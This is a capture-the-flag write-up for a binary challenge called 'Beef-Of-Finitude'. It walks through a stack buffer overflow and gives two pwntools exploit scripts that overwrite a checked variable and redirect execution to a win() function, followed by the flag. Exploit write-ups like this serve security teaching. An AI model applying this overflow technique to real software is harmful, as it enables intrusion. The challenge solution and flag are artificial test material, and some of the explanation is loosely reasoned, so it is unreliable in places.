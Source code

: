 # Beef-Of-Finitude

To start off, we see a main function which calls function myFun.
   
This functions takes in two inputs (strings), one as name and the other as password. 
An initial variable say var is defined and is equal to 7. i.e var = 0x7 as seen from line 22 in myFun.
The first input and second inputs are 16 bytes long, however, if we look at line 103, we can see a 'push 0x150' command, which suggests that though the size for second input is 16 bytes, its taking 0x150 in total. 
This would mean that there is a chance to overflow the buffer to proceed to line 120, where the var value is compared with 0xdeadbeef and as we know var is stored at ebp-0xc as seen from line 22. 
Hence to satisfy the condition, we need to overflow the password in a way so that, var = 0xdeadbeef. 
```
To do that we may use the following code:

from pwn import *
r = remote('challenges.ctfd.io', 30027)

r.recvuntil('Enter your Name:')
r.sendline('shravya')

r.recvuntil('Enter your password:')
r.send('B'*26 + p32(0xdeadbeef))
r.interactive()
```
Till here we have just overflown the buffer. This allows us into the shell but however to get the flag we may have to call the win() function. 

## The gdb dump for the win() function is:
```
   0x08049240 <+10>:	sub    esp,0x12c                                            ; the stack size defined for win function is 0x12c or 300 bytes, whereas that for password input of myFun was 336 bytes. 
   0x08049246 <+16>:	call   0x8049170 <__x86.get_pc_thunk.bx>                    ; which implies that we can overflow the buffer into yet another function, i.e the win() function. To do so, we will first have to fill the above stack with 336-300 = 36 bytes, since the win function accpets 4 arguments, 
   0x0804924b <+21>:	add    ebx,0x2db5                                           ; 
   0x08049251 <+27>:	mov    ecx,DWORD PTR [ebp+0x8]                              ; the following lines determine the 4 arguments to the win() function,
   0x08049254 <+30>:	mov    DWORD PTR [ebp-0x130],ecx                            ; if ((((param_2 | param_1 ^ 0x14b4da55) == 0) && ((param_3 ^ 0x67616c66 | param_4) == 0)))
   0x0804925a <+36>:	mov    ecx,DWORD PTR [ebp+0xc]                              ; thus param_2 = 0; param_1 = 0x14b4da55 and param_3 = 0; param_4 = 0x67616c66
   0x0804925d <+39>:	mov    DWORD PTR [ebp-0x12c],ecx                            
   0x08049263 <+45>:	mov    ecx,DWORD PTR [ebp+0x10]
   0x08049266 <+48>:	mov    DWORD PTR [ebp-0x138],ecx
   0x0804926c <+54>:	mov    ecx,DWORD PTR [ebp+0x14]
   0x0804926f <+57>:	mov    DWORD PTR [ebp-0x134],ecx
   0x08049275 <+63>:	mov    ecx,DWORD PTR [ebp-0x130]
   0x0804927b <+69>:	xor    ecx,0x14b4da55
   0x08049281 <+75>:	mov    esi,ecx
   0x08049283 <+77>:	mov    ecx,DWORD PTR [ebp-0x12c]
   0x08049289 <+83>:	xor    ch,0x0
   0x0804928c <+86>:	mov    edi,ecx
   0x0804928e <+88>:	mov    ecx,edi
   0x08049290 <+90>:	or     ecx,esi
   0x08049292 <+92>:	test   ecx,ecx
   0x08049294 <+94>:	jne    0x80492c0 <win+138>
   0x08049296 <+96>:	mov    ecx,DWORD PTR [ebp-0x138]
   0x0804929c <+102>:	xor    ecx,0x67616c66
   ```
--> Thus in order to overflow the buffer at the password, and to call the win() function once the right value is compared at ebp-0xc register, we willnhave to:
      a) rewrite ebp-0xc with p32(0xdeadbeef) since that is what it is compared with,
      b) rewrite the return address stored at eip to that of the win function, 
      c) pass arguments of win function, i.e 
         param_1 = p32(0x14b4da55), param_2 = p32(0x0), param_3 = p32(0x67616c66), param_4 = p32(0x0)
   
## python program : (cotinuation)
   ```
   from pwn import *
   r = remote('challenges.ctfd.io', 30027)

   r.recvuntil('Enter your Name:')
   r.sendline('hi')

   r.recvuntil('Enter your password:')
   r.sendline('B'*26 + p32(0xdeadbeef) + 'B'*12 + p32(0x0804923a) + p32(0x0804923a) + p32(0x14b4da55) + p32(0x0) + p32(0x67616c66) + p32(0x0))

   r.interactive()
   ```
### Flag: UDCTF{0bl1g4t0ry_buff3r_ov3rflow}

